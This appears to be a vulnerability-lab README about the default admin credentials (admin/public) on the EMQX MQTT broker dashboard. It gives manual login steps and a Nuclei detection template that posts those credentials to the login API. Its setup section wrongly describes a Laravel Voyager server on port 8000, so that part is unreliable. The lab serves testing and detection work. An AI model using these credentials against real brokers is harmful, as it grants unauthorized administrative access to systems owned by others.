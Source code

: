 # EMQX Default Login

## Description:
EMQX is an open-source MQTT broker that provides a web-based Dashboard for management and monitoring.  
By default, EMQX includes predefined administrative credentials, which, if not changed, can pose security risks.  
An attacker could leverage these default credentials to gain unauthorized access, potentially leading to exposure of sensitive information, data modification, or execution of unauthorized operations.

## Reference:
- https://docs.emqx.com/en/emqx/latest/dashboard/introduction.html

## Vulnerable Setup

- Execute the following commands to start a Laravel Voyager 1.8.0 server:

```bash
docker compose up -d
```

- After the server is started, browse to http://your-ip:8000 to see the Laravel Voyager admin panel. This server requires authentication.

## Default Login   

Username: admin

Password: public

## Exploitation Steps
Navigate to the EMQX Dashboard at http://your-ip:18083.

Enter the default credentials (admin / public).

Upon successful login, you will have administrative access to the EMQX Dashboard.


## Steps to Write Nuclei Template
### Variables Section
Define the login credentials as variables for reuse in requests:

```
variables:
  username: "admin"
  password: "public"
  ```
### Request: Perform Login
Send a POST request to the EMQX authentication endpoint with the defined credentials:
```
- raw:
    - |
      POST /api/v4/auth HTTP/1.1
      Host: {{Hostname}}
      Content-Type: application/json

      {"username":"{{username}}","password":"{{password}}"}

  matchers:
    - type: dsl
      dsl:
        - 'contains(body, "{\"code\":0}")'
        - 'status_code == 200'
      condition: and
```
This template attempts to authenticate using the default credentials and checks for a successful login response.

## Nuclei Template URL
[EMQX Default Admin Login](https://github.com/projectdiscovery/nuclei-templates/blob/64c51343a069c230e693d275d9911a72c9f9928e/http/default-logins/emqx/emqx-default-login.yaml)

## Nuclei Command :

```bash
nuclei -id emqx-default-login -u http://<IP>:18083 -vv
```